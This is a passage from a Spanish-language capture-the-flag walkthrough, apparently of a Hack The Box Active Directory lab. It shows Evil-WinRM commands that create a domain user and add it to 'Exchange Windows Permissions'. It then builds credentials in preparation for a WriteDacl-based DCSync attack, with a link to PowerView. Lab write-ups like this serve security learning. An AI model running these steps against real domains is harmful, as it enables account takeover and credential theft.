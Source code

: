 Estando dentro del grupo `Account Operators` podemos crear un usuario e incorporarlo en nuevos grupos. Por lo que vamos a crear un usuario y lo agregaremos al grupo `Exchange Windows Permissions`.

```bash
Evil-WinRM* PS C:\Users\svc-alfresco\Desktop\bloodhound> net user fmiracle fmiracle123$! /add /domain
The command completed successfully.

Evil-WinRM* PS C:\Users\svc-alfresco\Desktop\bloodhound> net group "Exchange Windows Permissions" fmiracle /add
The command completed successfully.
Evil-WinRM* PS C:\Users\svc-alfresco\Desktop\bloodhound> net user fmiracle
User name                    fmiracle
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/11/2023 3:29:16 PM
Password expires             Never
Password changeable          10/12/2023 3:29:16 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *Exchange Windows Perm*Domain Users
The command completed successfully.
```

Ahora que estamos dentro este grupo podemos aprovecharnos del privilegio `WriteDacl` y ejecutar un `Dcsync Attack`, para ello ejecutamos los siguientes comandos.


```bash
Evil-WinRM* PS C:\Users\svc-alfresco\Desktop\bloodhound> $SecPassword = ConvertTo-SecureString 'fmiracle123$!' -AsPlainText -Force
Evil-WinRM* PS C:\Users\svc-alfresco\Desktop\bloodhound> $Cred = New-Object System.Management.Automation.PSCredential('htb.local\fmiracle', $SecPassword)
```

Despues vamos a descargarnos e importar el modulo de `PowerView.ps1`

* [https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
